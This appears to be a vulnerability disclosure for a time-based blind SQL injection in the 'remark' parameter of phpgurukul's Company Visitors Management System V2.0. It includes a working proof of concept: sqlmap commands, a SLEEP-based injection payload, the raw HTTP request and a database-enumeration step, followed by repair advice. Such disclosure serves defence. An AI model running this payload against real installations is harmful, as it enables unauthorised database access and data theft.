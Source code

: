 # phpgurukul Company Visitors Management System Project V2.0 /visitor-detail.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Company Visitors Management System

## Vendor Homepage

- https://phpgurukul.com/company-visitor-management-system-using-php-and-mysql/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- Rmyxx

## Vulnerable File

- /visitor-detail.php

## VERSION(S)

- V2.0

## Software Link

- https://phpgurukul.com/?sdm_process_download=1&download_id=9602

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was identified within the "/visitor-detail.php" file of the "Company Visitors Management System" project. The root cause lies in the fact that attackers can inject malicious code via the parameter "remark". This input is then directly utilized in SQL queries without undergoing proper sanitization or validation processes. As a result, attackers are able to fabricate input values, manipulate SQL queries, and execute unauthorized operations.

## Impact

- Exploiting this SQL injection vulnerability allows attackers to gain unauthorized access to the database, cause sensitive data leakage,  tamper with data, gain complete control over the system, and even  disrupt services. This poses a severe threat to both the security of the system and the continuity of business operations.

# DESCRIPTION

- During the security assessment of "Company Visitors Management System", I detected a critical SQL injection vulnerability in the  "/visitor-detail.php" file. This vulnerability is attributed to the  insufficient validation of user input for the "remark" parameter. This  inadequacy enables attackers to inject malicious SQL queries.  Consequently, attackers can access the database without proper  authorization, modify or delete data, and obtain sensitive information.  Immediate corrective actions are essential to safeguard system security  and uphold data integrity.

# Vulnerability details and POC

## Vulnerability location:

- "remark" parameter

## Payload:

python sqlmap.py -r 1.txt

```
Here are the results of sqlmap：



sqlmap identified the following injection point(s) with a total of 82 HTTP(s) requests:
---
Parameter: remark (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: remark=1' AND (SELECT 6032 FROM (SELECT(SLEEP(5)))hLqu) AND 'aEXs'='aEXs&submit=
---
[12:27:45] [INFO] the back-end DBMS is MySQL
[12:27:45] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
web application technology: Apache 2.4.39, PHP 8.0.2
back-end DBMS: MySQL >= 5.0.12
[12:27:45] [INFO] fetched data logged to text files under 'C:\Users\Rmyxx\AppData\Local\sqlmap\output\cve'
[12:27:45] [WARNING] your sqlmap version is outdated

[*] ending @ 12:27:45 /2025-06-05/

```

​     the following is 1.txt

```
1.txt




POST /cvms/visitor-detail.php?editid=6 HTTP/1.1
Host: cve
Accept-Encoding: gzip, deflate
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Origin: http://cve
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Upgrade-Insecure-Requests: 1
Referer: http://cve/cvms/visitor-detail.php?editid=6
Cookie: PHPSESSID=ej2ktjpp7a1uoqlri33h16tfkn
Content-Length: 16

remark=1&submit=
```



## Vulnerability Request Packet

```
POST /cvms/visitor-detail.php?editid=6 HTTP/1.1
Host: cve
Accept-Encoding: gzip, deflate
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Origin: http://cve
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Upgrade-Insecure-Requests: 1
Referer: http://cve/cvms/visitor-detail.php?editid=6
Cookie: PHPSESSID=ej2ktjpp7a1uoqlri33h16tfkn
Content-Length: 16

remark=1&submit=
```

​      

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:



```
python sqlmap.py -r 1.txt -p remark
```

![image-20250605123225477](image-20250605123225477.png)          

```
python sqlmap.py -r 1.txt -p remark --dbs
```



![image-20250605123157464](image-20250605123157464.png)                

# Suggested repair

1. **Employ prepared statements and parameter binding:**
    Prepared statements serve as an effective safeguard against SQL  injection as they segregate SQL code from user input data. When using  prepared statements, user - entered values are treated as mere data and  will not be misconstrued as SQL code.
2. **Conduct input validation and filtering:**
    Rigorously validate and filter user input data to guarantee that it  conforms to the expected format. This helps in blocking malicious input.
3. **Minimize database user permissions:**
    Ensure that the account used to connect to the database has only the  minimum required permissions. Avoid using accounts with elevated  privileges (such as 'root' or 'admin') for day - to - day operations.
